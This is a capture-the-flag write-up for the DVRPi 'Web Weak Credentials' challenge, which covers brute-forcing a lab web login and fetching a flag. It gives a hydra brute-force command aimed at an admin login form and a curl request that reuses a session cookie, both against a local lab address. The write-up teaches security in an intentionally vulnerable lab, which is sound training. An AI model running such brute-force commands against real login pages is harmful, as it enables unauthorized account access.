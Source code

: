 # Weak Web Credentials - Write-Up

## Overview
**Challenge Name**: Web Weak Credentials  
**Difficulty**: Low  
**Category**: Web Security  
**Goal**: Exploit login and API vulnerabilities to retrieve a flag.

## What You’ll Need
- Browser or `curl`.
- Brute-force tool (e.g., `hydra` or `burp`.).
- UART-to-USB adapter (GPIO 4: RX, 6: Ground, 8: TX; 115200 baud).
- Terminal emulator (`minicom`)[optional].
- Enumeration Utility (e.g., `nmap`).
- Wi-Fi client (SSID: `DVRPI`, password: `dvrpiconnect`).

## Challenge Description
A web server (`http://192.168.4.1:8008`) hosts a PHP application with a login page vulnerable to brute force and an insecure API. Brute-force the login to access the API and retrieve the flag.

## How to Solve It
1. **Connect to Wi-Fi**:
   - Join SSID `DVRPI` (password: `dvrpiconnect`).
     
2. **Brute-Force Login**:
   
   - Visit `http://192.168.4.1:8008/login.php`.
   - Using `hydra`:
     
     ```bash
     hydra -l admin -P wordlist.txt 192.168.4.1:8008 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
     ```
     - Username: `admin`.
       
4. **Exploit API**:
   - Access `/api/getflag` with session cookie:
     
     ```bash
     curl -b "PHPSESSID=your_session_id" http://192.168.4.1:8008/api/getflag
     ```
     - Retrieve: `flag{ ... }`.

## What You Learn
- Brute force attacks.
- API security weaknesses.
- Session management in web applications.

## Notes
- **Wi-Fi AP**: Static IP 192.168.4.1, DHCP for clients.
- Check `journalctl -u nginx` for logs.

## Resources
- **DVRPi Documentation**: `/challenges/7. Web Weak Credentials - Write-Up.md`.
  
---

**Author**: [Exploit Security Team](https://www.exploitsecurity.io)  
**License**: GPL V3.0  
**Repository**: [DVRPi GitHub](https://github.com/exploitsecurityio/DVRPi)  
**Last Updated**: May 25, 2025
